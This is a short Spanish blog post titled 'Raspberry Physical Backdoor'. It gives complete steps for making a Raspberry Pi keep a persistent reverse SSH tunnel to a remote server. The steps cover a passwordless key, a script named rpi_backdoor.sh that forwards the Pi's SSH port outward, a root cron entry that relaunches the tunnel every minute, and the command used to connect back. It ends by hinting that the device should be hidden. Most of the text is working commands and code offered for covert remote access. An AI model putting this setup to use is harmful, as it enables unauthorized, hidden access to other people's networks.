 ```yaml
---
layout: post
title: Raspberry Physical Backdoor
---
```


Reverse SSH connection with Raspbian

# Reverse SSH
Estableceremos una conexion de SSH reversa desde la RPi a algun servidor para poder controlar la RPi. Esto se asemeja a una conexion reversa usando netcat, pero con la variante de que este estara cifrado y contara con contraseña. 

# Materiales

* Raspberry pi
* Servidor

# Configuracion llave publica/privada
Para no colocar el usuario y contraseña cada ves que tengamos que conectarnos desde la RPi al servidor generaremos una llave publica ssh desde Raspbian y la subiremos al servidor donde nos conectaremos mas tarde para controlar la Raspberry Pi

### generando llave en la RPi
```
ssh-keygen -b 2048 -t rsa -f /home/pi/.ssh/id_rsa -q -N ""
```

### subiendo la llave publica al servidor
```
scp .ssh/id_rsa.pub <user>@<serverhost>:.ssh/authorized_keys
```

# Automatizando conexion
Creamos un script (robado) llamado `rpi_backdoor.sh` que automatiza la conexion del ssh

``` bash
#!/bin/bash
createTunnel() {
  /usr/bin/ssh -N -R 2222:localhost:22 <user>@<serverhost>
  if [[ $? -eq 0 ]]; then
    echo Tunnel to jumpbox created successfully
  else
    echo An error occurred creating a tunnel to jumpbox. RC was $?
  fi
}
/bin/pidof ssh
if [[ $? -ne 0 ]]; then
  echo Creating new tunnel connection
  createTunnel
fi
```

Tenemos que hacer que conecte cada vez que inicie Raspbian, para eso usamos cron para que la conexion sea persistente.

```
sudo su
echo "*/1 * * * * ~/rpi_backdoor.sh > tunnel.log 2>&1" >> /var/spool/cron/crontabs/pi
```

# Conectando al backdoor
Teniendo ya todo configurado, reiniciamos la RPi y ya podremos conectarnos desde el server

```
ssh pi@localhost -p 2222
```

# Como esconderlo?
Usa la imaginacion ;)
